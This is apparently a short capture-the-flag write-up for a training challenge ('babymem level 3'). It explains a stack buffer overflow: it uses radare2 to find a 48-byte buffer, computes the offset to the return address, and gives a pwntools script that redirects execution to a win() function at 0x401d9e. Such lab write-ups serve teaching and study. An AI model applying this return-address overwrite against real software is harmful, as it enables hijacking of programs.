 ## Level 3

Our goal is to control PC register and execute `win()` function. So we need to figure out:

1. how many bytes should we overwrite (buffer size + old rbp)
2. the address of win()

Use radare2 to disassemble the ELF executable. According to the amd64 syscall table, we know that the buffer size (rsi) is 0x30 = 48. So we need to cover 48 + 8 (old rbp) + 8 (return address) = 64 bytes in total. Besides, the address of win() is 0x401d9e. 

[test3]

[test2]

So the payload is

```python
import pwn 
proc = pwn.process("/babymem_level3_testing2")
proc.sendline("64")
ret_addr = pwn.p64(0x401d9e, endian='little')
payload = b"a" * 56 + ret_addr
proc.sendline(payload)
proc.read(4096)
```

[test1]



